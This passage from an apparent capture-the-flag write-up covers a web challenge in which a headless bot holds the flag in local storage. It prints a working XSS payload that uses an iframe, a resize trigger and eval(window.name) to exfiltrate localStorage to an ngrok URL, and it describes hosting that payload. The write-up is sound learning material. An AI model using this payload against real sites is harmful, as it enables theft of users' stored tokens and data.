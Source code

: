 That worked like a charm. Now from here it's a simple way forward. Like I said in the beginning, there is puppeteer bot that opens URLs from `/fan-mail` the bot browser has the flag in its local storage. The plan is to repeat the same steps above inside the bot but capture the `localStorage.username` and send it to our ngrok. Since we can't make the bot resize the browser we will use `iframes`. Now the bot only allows http and https protocols. So we have to set up our payload on public url using ngrok and pass it to the bot. But first, let's create the payload.

We need the bot to do only three things.

* Load the `localhost:4000` on a low-width iframe and go to `/drawing/<anything>#src=none&onerror=<xss payload>&is`
* Increase the width of the `iframe` after loading so we trigger the xss.&#x20;
* Build an xss payload that can send `localStorage.username` to ngrok.

Here's the payload that I cam up with:

```javascript
<iframe src="none" id=frame height="1000"></iframe>
<script>
	frame.contentWindow.name = `window.open('${location.href}'+localStorage.username)`
	frame.onload = () => {
		setTimeout(`frame.contentWindow.location = 'http://localhost:4000/drawing/pwn#onerror=eval(window.name)&src=pwn&is=notpwn'`, 1000)
		setTimeout(`frame.width = 1000`, 1500)
	}
</script>
```

* Firstly, I am creating an `iframe` with `none` as source, 1000 height and default width (which is small enough to produce the error).
* Second I am storing a function that will capture the `localStorage.username` and send it to ngrok in a string format. I am using `frame.contentWindow.name` to store it since we can't store it outside the iframe context.&#x20;
  * Note, the current state of the `frame.contentWindow.name` is stored in string format. So it doesn't execute the function inside it unless we run it inside `eval()`
  * `location.href` is basically the URL of the ngrok.
* After that, I am changing the iframe src to the xss URL. Which opens the error page.
  * Note, the xss runs `eval(window.name)` which basically executes the (string) name: `window.open('${location.href}'+localStorage.username)` as javascript code. So this will open `<our ngrok url>/<flag>`
* Lastly, I am changing the width of the iframe to large enough to trigger the XSS.

Now let's save this payload as `index.html` and start our simple http server in python using `python3 -m http.server` and then start our ngrok server that listens to the simple http server on our computer.&#x20;

![The Setup](<../.gitbook/assets/image (26).png>)
